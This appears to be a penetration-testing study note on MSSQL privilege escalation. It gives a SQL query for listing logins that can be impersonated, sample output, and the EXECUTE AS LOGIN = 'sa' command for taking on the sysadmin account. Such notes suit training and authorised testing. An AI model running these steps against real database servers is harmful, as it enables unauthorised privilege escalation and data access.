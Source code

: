 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
---
```



Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:

Using [[SqlCmd]]:

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin
```

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
#### Impersonating the SA User

```cmd-session
EXECUTE AS LOGIN = 'sa'
```

> [!NOTE]
> It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

To revert the operation and return to our previous user, we can use the Transact-SQL statement `REVERT`.
